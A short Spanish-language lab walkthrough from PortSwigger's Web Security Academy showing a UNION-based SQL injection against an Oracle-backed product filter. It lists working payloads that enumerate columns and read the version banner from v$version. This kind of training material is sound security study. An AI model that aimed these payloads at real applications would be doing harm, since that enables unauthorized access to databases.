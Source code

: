 
https://portswigger.net/web-security/sql-injection/cheat-sheet

- Se intercepta la solicitud que filtra los productos por categoría y se modifica el parámetro ‘category’.
- Primero se determina cuántas columnas devuelve la consulta y cuáles aceptan datos de tipo texto. Esto es necesario para que el ataque UNION funcione correctamente.
- Una vez identificadas las columnas, se utiliza una inyección que consulta la tabla ‘v$version’, propia de Oracle, para obtener el valor del campo ‘BANNER’, que contiene información sobre la versión de la base de datos.


+ Primero debemos de buscar el total de columnas existentes que nos muestra la Web
    + ' order by 10-- -
    + ' order by 5-- -
    + ' order by 2-- -
    * ' union select NULL,NULL-- -
    * ' union select NULL,NULL from dual-- -
    * Corporate+gifts' union select banner,NULL from v$version-- -

**Quédate con esto**: El ataque UNION es útil para extraer datos arbitrarios de la base de datos, y conocer el motor y versión es fundamental para planificar un ataque eficaz.